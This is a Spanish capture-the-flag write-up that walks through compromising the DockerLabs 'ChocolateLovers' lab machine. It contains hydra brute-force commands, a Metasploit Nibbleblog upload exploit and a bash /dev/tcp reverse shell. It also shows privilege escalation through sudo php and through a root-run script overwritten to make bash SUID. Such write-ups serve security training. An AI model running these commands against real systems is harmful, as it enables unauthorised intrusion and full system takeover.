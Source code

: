 # Máquina ChocolateLovers

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Echamos un vistazo a la web y vemos que es la página por defecto de apache. Aplicamos **fuzzing** pero no encontramos absolutamente nada.

Mirando el código de la página encontramos un comentario con un directorio **/nibbleblog**.

![Pasted image 20240508131640](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/d579f63d-7182-4917-8c89-a9986337945f)

Al acceder encontramos efectivamente una página que emplea esta tecnología.

![Pasted image 20240507224317](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b6af0b9a-2ad1-4074-b2a1-662cef891586)

Vemos que hay una ruta a un panel de administración. Accedemos y encontramos un panel de login:

![Pasted image 20240507224342](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b628c352-0beb-4b35-b3af-c151231121a2)

--------------
## Explotación

Probaremos a hacer **fuerza bruta** contra este panel de login. Podemos emplear la herramienta **hydra**.
Vemos que data se tramita al hacer una prueba de login:

![Pasted image 20240507224909](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2141b791-afd6-410e-a3ce-80f25c25be4a)

Usaremos la Request para indicarle a **hydra** la petición y el mensaje de error para que sepa cuando no ha sido exitoso el login.

```shell
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/nibbleblog/admin.php:username=^USER^&password=^PASS^:Invalid username or password"
```

![Pasted image 20240507225348](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/16faeef0-e71a-4e0e-9fbf-8f745c92965a)

Vemos que reporta un montón de falsos positivos y tras volver a la página vemos un mensaje de error. Esto corresponderá seguramente a alguna protección contra fuerza bruta.

![Pasted image 20240507225902](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/31c2a20c-c33d-4175-a852-4c94a899d864)

Finalmente, bastaba con probar a loguearte con las credenciales más típicas -> **admin:admin**

Logramos acceder al panel de administración del blog. En ajustes (settings), podemos ver la versión del **nibleblog**:

![Pasted image 20240507231204](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c9ecad54-520e-4015-a43c-df99f680b7e9)

Si buscamos con **searchsploit** hay un exploit específico para esa versión.

![Pasted image 20240507231234](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8932e550-af8b-42f5-9c20-a00af2dec069)

```shell
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD admin
set USERNAME admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog/
exploit
```

Al ejecutar el exploit vemos que nos da error:

![Pasted image 20240507233147](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/fe48beed-cf37-40ab-aa88-6168dd7c5b54)

Revisando el código del script que estamos explotando, está abusando de un plugin llamado **My Image**.
Vemos en la sección de plugins del panel que no está instalado. Lo instalamos.

![Pasted image 20240507233237](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ef3e6d5a-31af-4f0a-ac97-d54b348b8a76)

Con esto obtenemos una sesión de meterpreter exitosamente.

![Pasted image 20240507233314](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/59e5d847-d717-45d7-8807-c635cef702e0)

Estamos dentro !

Ponemos **shell** para tener una consola a la que estamos acostumbrados.

Nos ponemos en escucha y nos enviamos una reverse shell para trabajar de forma más cómoda:

![Pasted image 20240507233658](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a6002ce2-ce9a-44ce-b636-ff78a9ffcd91)

```shell
sudo nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/172.17.0.1/443 0>&1" 
```

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

------------
## Escalada de privilegios

Hacemos **sudo -l** y vemos que podemos ejecutar **php** como el usuario **chocolate**:

```shell
sudo -l
-----------------------------------------------------------------
User www-data may run the following commands on 9098e8d027e9:
    (chocolate) NOPASSWD: /usr/bin/php
```

Abusamos de este:

```shell
CMD="/bin/bash"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

Si listamos los procesos que están corriendo en el sistema. Podemos ver que **root** está ejecutando un script sospechoso:

```shell
ps -faux
----------------------------
root   1  0.0  0.0   2616  1712 ?   Ss   13:15   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

Si listamos sus permisos vemos que pertenece al usuario **chocolate**:

```shell
ls -l /opt/script.php
------------------------------
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
```

Podremos cambiarlo a nuestro antojo para ejecutar algo como el usuario **root**:

```shell
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Y tras esperar un poco:

```shell
ls -l /bin/bash
----------------------------
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que la bash ya es **SUID** por lo que podemos escalar privilegios.

```shell
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!
